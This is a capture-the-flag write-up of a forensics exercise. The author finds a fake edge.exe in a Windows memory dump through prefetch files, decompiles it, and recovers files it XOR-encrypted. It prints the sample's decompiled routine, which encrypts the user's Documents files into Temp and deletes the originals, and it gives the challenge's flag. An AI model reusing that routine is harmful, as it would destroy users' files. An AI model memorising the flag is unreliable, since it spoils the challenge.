---
title: pf-ing

---

# pf-ing
**Challenge scenario**: believe me, its just an intro to DFIR about ransom cases!
Note: This challenge doesn't have any questions but the flag itself!

## Overview
This challenge relating analyze a memory dump from a Windows's machine.

First, I checked for pslist to see if any suspicious processes was running at the time being dump, but nothing seems malicious a bit.

MicrosoftEdge was running at this time. 
I also checked for netscan, cmdline, consoles but nothing smells off.

Just some Microsoft Edge update.

## pf files
There must be something was hiding. Since the challenge's name is **pf-ing**, I checked for existence of prefetch files, and dumped it for furthur analysis.

I noticed that cmd.exe was run, which raised a bit suspicion.


So I did osint a bit, and I found out that the only valid executable of Microsoft Edge is msedge.exe, and it is stored in C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe. But in the prefetch files I had a edge.exe, should check for this.

It is not located in the default folder, and it also have interactions with /temp directory.

It also references multiple dll, png, jpg files. 
So this edge.exe really smells off. So I searched for this edge.exe's virtual address in the memory dump, and dumped it out.



## edge.exe analysis
Quite complicated, needed a bit reversing skills, and some promptes as well. I started with start() function, it calls to sub_7FF6571B1190(), then it continue to calls to sub_7FF6571B1ABE(), then sub_7FF6571B1830()
```
int sub_7FF6571B1830()
{
  unsigned int v1; // eax
  CHAR FileName[272]; // [rsp+30h] [rbp-50h] BYREF
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+140h] [rbp+C0h] BYREF
  char v4[272]; // [rsp+280h] [rbp+200h] BYREF
  char v5[272]; // [rsp+390h] [rbp+310h] BYREF
  CHAR Str[272]; // [rsp+4A0h] [rbp+420h] BYREF
  CHAR pszPath[271]; // [rsp+5B0h] [rbp+530h] BYREF
  unsigned __int8 v8; // [rsp+6BFh] [rbp+63Fh]
  HANDLE hFindFile; // [rsp+6C0h] [rbp+640h]
  int v10; // [rsp+6CCh] [rbp+64Ch]

  hFindFile = (HANDLE)-1LL;
  v10 = 0;
  SHGetFolderPathA(0, 5, 0, 0, pszPath);
  SHGetFolderPathA(0, 28, 0, 0, Str);
  strcat(Str, "\\Temp");
  sub_7FF6571B17E4(Str);
  sub_7FF6571B1591(FileName, 260, "%s\\*", pszPath);
  hFindFile = FindFirstFileA(FileName, &FindFileData);
  if ( hFindFile == (HANDLE)-1LL )
    return sub_7FF6571B1540("Error finding files in Documents\n");
  v1 = sub_7FF6571B15DB(0);
  srand(v1);
  do
  {
    if ( (FindFileData.dwFileAttributes & 0x10) == 0 )
    {
      sub_7FF6571B1591(v5, 260, "%s\\%s", pszPath, FindFileData.cFileName);
      sub_7FF6571B1591(v4, 260, "%s\\%d.dll", Str, ++v10);
      v8 = sub_7FF6571B1652(v5, v4);
      if ( v8 )
      {
        sub_7FF6571B1540("Encrypted %s -> %s with XOR key: 0x%02x\n", FindFileData.cFileName, v4, v8);
        if ( remove(v5) )
          perror("Error deleting original file");
        else
          sub_7FF6571B1540("Deleted original file: %s\n", v5);
      }
      else
      {
        sub_7FF6571B1540("Failed to encrypt file: %s\n", FindFileData.cFileName);
      }
    }
  }
  while ( FindNextFileA(hFindFile, &FindFileData) );
  return FindClose(hFindFile);
}
```
This is where the malware was executed. It checks through all files in /Documents directory, encryptes each files using XOR, and stores to AppData\Temp\N.dll.

I also found this is very interesting, whereas
SHGetFolderPathA(0, 5, 0, 0, pszPath) --> pszPath = Documents
SHGetFolderPathA(0, 28, 0, 0, Str) = Local AppData
So after these commands, pszPath = C:\Users\Doli\Documents
Str = C:\Users\Doli\AppData\Local\Temp

About how files are encrypted, let's check sub_7FF6571B1652()

The XOR key is generated randomly from 0x00 to 0xff.

## Decrypt files
With the given information, I dumped all the N.dll files (N from 1 to 8), and used CyberChef for Xor Brute Force.

Why the 5.dll was missing? Anyway, just decrypt those file first.

So I recovered the first one, which was encrypted as 1.dll. Doing the same for all files, I found the flag is hidden in **MY-BELOVED-WIFE.JPG**, which was encrypted as **6.dll**, not in flag.txt.


**FLAG: SNI{intr0_t0_df1r_and_th1s_g1rl_is_w4y_b3tter_than_Chizuru}**

